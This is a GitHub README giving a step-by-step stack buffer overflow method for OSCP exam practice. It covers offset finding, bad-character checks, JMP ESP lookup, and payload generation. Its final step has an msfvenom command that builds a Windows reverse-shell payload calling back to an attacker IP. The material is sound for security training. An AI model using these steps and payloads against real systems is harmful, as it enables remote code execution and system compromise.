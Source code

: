 # Buffer Overflow methodology

![GitHub Repo stars](https://img.shields.io/github/stars/3isenHeiM/OSCP-BoF?style=social) [![GitHub last commit (branch)](https://img.shields.io/github/last-commit/3isenHeiM/OSCP-BoF/master)](https://github.com/3isenHeiM/OSCP-BoF/commits) ![GitHub](https://img.shields.io/github/license/3isenHeiM/OSCP-BoF)


[![Python 3](https://img.shields.io/badge/python-3-blue.svg?logo=python&logoColor=white)](https://www.python.org/downloads/release/python-3/) ![GitHub Workflow Status](https://img.shields.io/github/workflow/status/3isenHeiM/OSCP-BoF/Linting)





[![Twitter Follow](https://img.shields.io/twitter/follow/3isenHeiM?style=social)](https://twitter.com/3isenHeiM)


## Introduction

These are 7 simple python scripts and a methodology **to ease** (not *automate* !) the exploitation.
Each script targets a phase of the exploitation :

1. Trigger the BoF (this is facultative for OSCP since they give you a code snippet)
2. Find the EIP offset
3. Confirm the offset
4. Find the badchars
5. Confirm badchars + find JMP ESP instruction
6. Confirm code execution (pop calc)
7. Exploit host

It's based on the [do stack buffer overflow good](https://github.com/justinsteven/dostackbufferoverflowgood)" project (BTW, it's awesomely explained).

## How to use

Follow each step and you'll be able to craft a working example of a BoF exploitation.

All the specific variable are stored in [1 single resource file](PARAMETERS.py),
to avoid any confusion during the exam.

After each step, fill the proper variables with values found and they'll be re-used for the next step

Note: If after each debug operation performed, the application has become unresponsive; Immunity Debugger should be closed first, then the "vulnapp.exe" application should be restarted, and Attach and Run should be done on Immunity Debugger.

## 0. Pre-start

Fill in the following variables in the [resource file](PARAMETERS.py) depending on the host to attack :
 * ``RHOST`` : the IP address of the host
 * ``RPORT`` : the port on which to access the application to exploit

## 1. Segmentation fault : [1_segfault.py](1_segfault.py)

Send enough length string for victim system crash.

Please note that the total length to input is often given in the exmaple they
provide in the exam.

Note the offeset in ``PARAMETERS.py``, in the variable ``offset_eip``.

## 2. Find the offset : [2_find_offset.py](2_find_offset.py)

Generate the pattern (adapt the buffer lenght) :

    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <String_Length>

    buf += ("<PATTERN>")

Put the output into the variable ``buf`` in ``2_find_offset.py`` & send it.

Once the app crashes, note down the value of the EIP register (which is the address of the next operation to be executed).




If needed : convert the EIP value to ASCII : echo "<EIP_value>" | xxd -r -p

Find the offset at which the sequence is met in the pattern :

    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <EIP_value>

Or, type this in Immunity Debugger : `!mona findmsp`.

Note the value of the EIP offet in the variable ``offset_eip`` in ``PARAMETERS.py``, and the value of the ESP offset in the variable ``offset_esp``.

## 3. Control the EIP : [3_confirm_offset.py](3_confirm_offset.py)

Execute this script as is.

In Immunity Debugger, make sure that
   - **BBBB** in the EIP (in hex, so ``42424242``)
   - **CCCCDDDDD.....** is written in what ESP points to

## 4. Find the bad chars : [4_find_badchars.py](4_find_badchars.py)

Send it to the application

In Immunity Debugger, make mona create a list of badchars :

    !mona bytearray –cpb “\x00”

The console output will tell you where it has been saved.

Compare this file with the stack contents :

    !mona compare -a ESP -f <file_with_bad_chars>
    !mona compare -a <WHATEVER ADDRESS> -f <file_with_bad_chars>

**Note: **always use the full path to the file !

In the mona output, ``Possibly bad chars`` are output.
Put them in the ``badchars`` array in ``PARAMETERS.py``.

## 5. Confirm badchars & find a JMP ESP instruction : [5_find_jmp_esp.py](5_find_jmp_esp.py)

### a. Confirm badchars

Make sure the badchars identified are mentionned in the ``PARAMETERS.py`` file.

Execute the script.

Re-generate a badchar sequence on mona :

    !mona bytearray -cpb "\x00\x04\x05\xA2\xA3\xAC\xAD\xC0\xC1\xEF\xF0"

The console output will tell you where it has been saved.

Compare the ``bytearray.bin`` (**use the full filepath**) and the buffer to make sure they are the same.
That will mean that no new badchar have been detected :

    !mona compare -a ESP -f <file_with_bad_chars>
    !mona compare -a <WHATEVER ADDRESS> -f <file_with_bad_chars>

The mona output status should be ``unmodified`` and you should get a message in the
console saying : ``!!! Hooray, normal shellcode unmodified !!!``

This mean that no other badchars have been detected.

### b. Find a JMP ESP

Ask mona to find the instruction ``JMP ESP`` that will allow the processor to execute
whatever we have put in the stack.

    !mona jmp -r esp -cpb "<bad_chars>"       formatted like this : "\x00\x01"

Put the address returned in the variable ``ptr_jmp_esp`` in ``PARAMETERS.py``


## 6. Pop calc : [6_pop_calc.py](6_pop_calc.py)

This will confirm the code execution on the target host.
This can be used to validate the build-up of the exploit, and set a working basis.

Launch this to produce the shellcode that will make calc pop on the target :

    msfvenom -p windows/exec -b '<badchars>' -f python --var-name shellcode_calc \
    CMD=calc.exe EXITFUNC=thread

Insert the output (python variable ``shellcode_calc``) in the script ``6_pop_calc.py``.

In the script, we will also move ESP up in the stack (instruction ``SUB ESP,0x10``)
This is to avoid the ESP overwrite by the encoder of the payload.
Some guys use a NOP sled, here is a more proper way ;)

Launch the script and enjoy popping calc!

## 7. Create shellcode : [7_exploit.py](7_exploit.py)

Now, you can craft any other shellcode as long as you respect the badchars :

    msfvenom -p windows/shell_reverse_tcp LHOST=<Attacker_IP> LPORT=<Attacker_Port> \
    -f py -b '<badchars>' -e x86/shikata_ga_nai --var-name shellcode

Insert the output (python variable ``shellcode_calc``) in the script ``7_exploit.py``.

